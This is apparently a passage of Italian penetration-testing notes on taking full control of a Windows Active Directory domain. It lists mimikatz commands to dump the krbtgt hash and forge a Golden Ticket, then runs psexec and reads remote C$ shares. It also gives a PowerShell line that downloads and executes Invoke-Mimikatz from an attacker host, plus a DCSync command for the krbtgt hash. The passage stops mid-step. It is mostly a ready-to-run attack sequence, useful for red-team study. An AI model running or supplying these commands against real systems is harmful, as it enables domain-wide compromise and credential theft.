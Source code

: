 # FASE 4 - COMPLETE ACCESS

## Golden Ticket

Eseguiamo un Golden Ticket Attack con mimikatz dopo aver compromesso il DC

```bash
mimikatz.exe

privilege::debug

lsadump::lsa /inject /name:krbtgt
```

Prendiamo il SID del dominio e l’NTLM del krbtgt, infine generiamo il GT con

```bash
kerberos::golden /User:Administrator /domain:DOMAIN.local /sid:<SID_INDIVIDUATO_SOPRA> /krbtgt:<HASH_NTLM> /id:500 /ptt
```

E apriamo il prompt con

```bash
misc::cmd
```

Possiamo eseguire qualsiasi comando su qualsiasi macchina del dominio.

Esempio:

```bash
dir \\<MACCHINA_TARGET>\c$
```

Possiamo anche utilizzare *psexec* sulla macchina target per un completo controllo della shell

```bash
psexec.exe \\<MACCHINA_TARGET> cmd.exe
```

Un’altra via per ottenere un ***Golden Ticket*** è la seguente:

- Otteniamo una shell con evil-winrm sulla macchina target;
- Carichiamo nella memoria della macchina target, mediante una shell evil-winrm con privilegi, Invole-mimikatz

```bash
iex(new-object net.webclient).downloadstring('http://<ATTACKER_IP>:<PORT>/Invoke-Mimikatz.ps1')
```

- Usiamo invoke-mimikatz per un targeted DC-Sync attack contro un krbtgt user per estrarre il KRBTGT AES hash (nel caso non lo avessi mo già ottenuto con secretsdump)

```bash
Invoke-Mimikatz -Command '"privilege::debug" "lsadump::dcsync /user:krbtgt /domain:<DOMAIN>"'
```

- Identifichiamo il SID del domain, che possiamo trovare nella scansione di enum4linux-ng, oppure possiamo cercarlo manualmente con
